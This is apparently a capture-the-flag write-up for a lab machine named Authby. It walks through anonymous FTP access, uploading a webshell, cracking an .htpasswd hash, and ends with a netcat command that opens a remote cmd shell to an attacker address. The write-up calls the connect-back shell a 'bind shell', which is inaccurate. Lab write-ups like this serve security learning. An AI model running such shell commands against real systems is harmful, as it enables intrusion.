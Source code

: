 # Authby

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After scanning for open ports, i saw that i had ftp anonymous with plenty of files, let's see if there are some interesting stuff, i did not find anything interesting accesible&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

But it does not work for the moment but i'm able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hackviser.com/tactics/pentesting/services/ftp#reverse-shell-over-website" %}

I'm able to upload a shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

In the admin share we got .htpasswd file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the hash to admin:elite

looking at the web service:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and we are able to log in:&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

and i'm able to get a ping back:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

but no persistent shell so i need to make a better work

so i download this:

{% embed url="https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985" %}

and we're able to pop a webshell:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

I tried running reverse shell commands and php and C and powershell but it was not&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

so i transfered nc.exe to the target and used it to make a bind shell:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

since it's windows i have to bind to a cmd shell:

```
nc.exe 192.168.49.54 1234 -e cmd
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
